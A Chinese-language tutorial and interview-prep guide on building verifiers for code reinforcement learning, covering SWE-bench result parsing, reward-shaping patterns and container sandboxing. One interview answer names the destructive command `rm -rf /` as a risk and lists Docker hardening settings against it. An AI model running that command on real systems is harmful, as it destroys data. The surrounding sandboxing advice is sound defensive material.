    """解析 SWE-bench 测试结果。

    SWE-bench 的判定逻辑比简单通过/失败更复杂：
    - resolved_tests: 该 Issue 应该修复的测试列表
    - 只有 resolved_tests 中所有测试都通过，且没有引入新的失败，才算正确
    """
    # 解析 pytest 输出
    test_results = parse_pytest_output(test_output)

    # 检查 resolved tests 是否全部通过
    all_resolved_pass = all(
        tid in test_results.passed
        for tid in resolved_tests
    )

    # 检查是否引入了新的失败（回归检测）
    new_failures = set(test_results.failed) - set(resolved_tests)

    if all_resolved_pass and len(new_failures) == 0:
        return SWEbenchResult(
            status="resolved",
            score=1.0,
            resolved_passed=len(resolved_tests),
            resolved_total=len(resolved_tests),
            regressions=0,
        )
    elif all_resolved_pass and len(new_failures) > 0:
        return SWEbenchResult(
            status="partial",
            score=0.5,
            resolved_passed=len(resolved_tests),
            resolved_total=len(resolved_tests),
            regressions=len(new_failures),
        )
    else:
        failed_resolved = [
            tid for tid in resolved_tests
            if tid not in test_results.passed
        ]
        return SWEbenchResult(
            status="failed",
            score=0.0,
            resolved_passed=len(resolved_tests) - len(failed_resolved),
            resolved_total=len(resolved_tests),
            regressions=len(new_failures),
            failed_tests=failed_resolved,
        )
```

### 5.3 SWE-bench Verifier 的已知挑战

| 挑战 | 描述 | 缓解方案 |
|------|------|----------|
| 环境复现困难 | 不同机器上依赖版本可能不同 | 使用固定 commit 的 Docker 镜像 |
| 测试 flaky | 同一 patch 多次运行结果不同 | 每个实例运行 3 次取多数 |
| 超时不确定 | 不同硬件上执行速度不同 | 设置保守超时（300s），记录执行时间 |
| Setup 脚本复杂 | 部分仓库需要特殊初始化 | 维护每个仓库的 setup 映射表 |
| 判定边界模糊 | 部分实例的 resolved tests 定义有争议 | 社区维护 gold standard，定期更新 |

---

## 6. Verifier 的设计原则

### 6.1 五大核心原则

1. **客观优先**: 能用规则判就别先用 LLM Judge。测试通过率 > 静态分析 > LLM 评分。

2. **便宜检查先做**: 静态分析先于完整测试。将秒级检查放在分钟级检查之前，尽早过滤无效候选，节省计算资源。

3. **结构化输出**: 不能只留一坨日志。所有验证结果必须结构化存储（JSON/数据库），包含分数、原因、原始输出、元信息。

4. **可复现**: 同一输入必须稳定给出同类结果。固定随机种子、固定依赖版本、固定环境配置。

5. **可审计**: 出错时能追到具体原因。完整的执行日志、中间状态快照、错误堆栈，都应保留。

### 6.2 奖励设计模式

```python
# 模式一：二值奖励（简单但粗糙）
reward = 1.0 if all_tests_passed else 0.0

# 模式二：比例奖励（更细粒度）
reward = passed_count / total_count

# 模式三：加权奖励（考虑测试重要性）
reward = sum(test.weight for test in passed_tests) / sum(test.weight for test in all_tests)

# 模式四：阶梯奖励（鼓励部分完成）
if all_critical_passed and all_optional_passed:
    reward = 1.0
elif all_critical_passed:
    reward = 0.7
elif half_critical_passed:
    reward = 0.3
else:
    reward = 0.0

# 模式五：惩罚式奖励（严重错误重罚）
base = passed_count / total_count
penalty = 0.3 if introduced_regression else 0.0
reward = max(0.0, base - penalty)
```

---

## 7. Verifiable RL

> **Verifiable RL**: 一种 RL 训练范式，将 reward 信号建立在可验证、可回放、可审计的外部结果上（如测试通过率、数学证明正确性），而非仅靠主观打分或简单的偏好对比。

### 7.1 Verifiable RL 的核心价值

| 优势 | 说明 |
|------|------|
| 奖励更稳定 | 测试结果不随评分者主观判断波动 |
| 更不容易 reward hacking | 模型无法通过"讨好"Verifier 来获得高分 |
| 更适合规模化 | 可以并行执行大量验证任务 |
| 训练信号更密集 | 每个测试用例都是一个独立的信号，而非一个总体评分 |

### 7.2 实践路径



---

## 8. 面试高频问题

### Q1: 在代码 RL 训练中，你怎么设计 Verifier？设计过程中最关键的一点是什么？

**A**：我会采用分层设计，按照执行成本从低到高依次执行：语法检查（毫秒级）-> 类型检查（秒级）-> 静态分析（秒级）-> 单元测试（十秒级）-> 集成测试（分钟级），每一层失败都可以短路后续检查。最关键的一点是**确保 Verifier 自身的正确性**。Verifier 的错误会直接污染 reward signal：如果 Verifier 有 bug 导致正确的 patch 被判为错误，模型就会学到错误的行为；如果错误 patch 被判为正确，模型就会学会 reward hacking。因此必须用 gold standard 数据集对 Verifier 做充分的质量验证，并在训练过程中持续监控 reward 分布是否合理。

---

### Q2: Docker 容器作为 Verifier 执行环境，有什么安全风险？如何系统性地防护？

**A**：主要安全风险包括五个维度：

1. **恶意命令执行**：模型可能生成 `rm -rf /` 等破坏性命令。防护：使用非 root 用户运行（`USER verifier`），设置 `read_only` 文件系统。
2. **资源耗尽攻击**：无限循环或内存炸弹。防护：通过 `mem_limit`、`nano_cpus`、`pids_limit` 限制资源使用。
3. **容器逃逸**：利用内核漏洞突破隔离。防护：`cap_drop: ["ALL"]` 移除所有 capabilities，`no-new-privileges` 禁止提权。
4. **网络滥用**：向外发送请求或扫描内网。防护：`network_disabled: true` 完全禁用网络。
5. **信息泄露**：读取宿主机敏感文件。防护：不挂载宿主机目录，使用 `tmpfs` 替代持久化存储。

此外，还需要考虑 Docker daemon 本身的权限配置（使用 rootless Docker）以及 seccomp profile 进一步限制系统调用。

---

### Q3: Agent 任务的 Verifier 和纯代码任务的 Verifier 有什么根本性区别？如何设计 Agent 任务的 Verifier？

**A**：根本区别在于**评估对象的可分解性**。代码任务可以分解为独立的测试用例，每个用例是一个客观的二元判定，因此可以用测试执行器做精确评估。Agent 任务是多步序列决策，存在路径多样性（多种正确路径可达同一目标），且中间步骤的质量影响最终结果。

Agent 任务的 Verifier 设计需要考虑：

1. **结果导向**：最终答案是否正确是最重要的信号（权重最高）
2. **效率评估**：是否用了过多的工具调用（步骤数 vs 理想步骤数）
3. **轨迹质量**：工具选择是否合理，是否有无效的来回操作
4. **部分奖励**：即使最终答案错误，如果完成了部分子目标也应该给正奖励

在具体实现上，我会用混合判分器，将客观检查（目标状态匹配）和 LLM Judge（轨迹合理性）结合，并且对 LLM Judge 做位置偏差和长度偏差的校准。

---

### Q4: 如果 Verifier 本身有 bug，会导致什么问题？如何在训练过程中检测和修复？

**A**：Verifier bug 的影响取决于 bug 的方向和频率：

- **假阴性（正确被判为错误）**：模型学到不应该学的行为被惩罚，有效样本被浪费，训练效率下降，模型可能变得过于保守
- **假阳性（错误被判为正确）**：模型学到错误行为并获得正奖励，这是最危险的，会导致 reward hacking，且错误会随着训练不断强化
- **不一致判定（同输入不同结果）**：增加训练噪声，模型难以学到稳定的策略

检测方法：
1. **Gold standard 验证**：用已知正确/错误的样本定期检查 Verifier
2. **Reward 分布监控**：如果 reward 分布出现突变（突然全高或全低），可能是 Verifier 出了问题
3. **一致性检查**：同一 patch 多次验证结果应一致，不一致则报警
4. **人工抽检**：定期抽取高分和低分样本进行人工复核

---

### Q5: 在大规模 RL 训练中（比如每天需要验证百万次），Verifier 的性能如何优化？

**A**：我会从五个层面优化：

1. **分层短路**：语法/类型检查成本极低（毫秒级），可以过滤掉 30-50% 的无效输出，避免它们进入昂贵的测试阶段。

2. **容器池化**：预热一批容器，避免每次创建/销毁的开销（约 1-3 秒/次）。可以使用 `ContainerPool` 模式管理。

3. **异步流水线**：将验证流程解耦为 patch 应用 -> 测试执行 -> 结果解析 三个阶段，用消息队列连接，实现流水线并行。

4. **结果缓存**：如果模型生成了相同的 patch（或语义等价的 patch），可以直接返回缓存结果。用 patch 的 hash 作为缓存 key。

5. **分布式调度**：使用 Kubernetes 或 Ray 进行容器编排，将验证任务分发到多个节点，支持自动扩缩容。对于不同优先级的任务，可以实现优先级队列（gold 样本优先验证）。

实际中，这些优化通常能将验证吞吐量提升 10-50 倍，使得百万级日验证量成为可能。
